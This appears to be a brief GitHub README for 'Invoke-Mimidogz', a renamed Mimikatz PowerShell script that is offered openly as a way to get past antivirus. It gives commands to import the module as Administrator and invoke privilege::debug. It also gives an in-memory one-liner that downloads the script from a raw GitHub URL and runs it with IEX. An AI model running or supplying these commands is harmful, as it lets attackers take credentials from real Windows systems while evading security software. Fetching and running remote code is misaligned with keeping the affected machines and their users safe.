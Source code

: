 ### mimikatz bypass Antivirus

Powershell as Administrator

    Import-Module .\Invoke-Mimidogz.ps1
    Invoke-Mimikatz -Command "privilege::debug"

or via web:

    IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mttstt/mimi/master/Invoke-Mimidogz.ps1');Invoke-Mimidogz -Command "privilege::debug" 
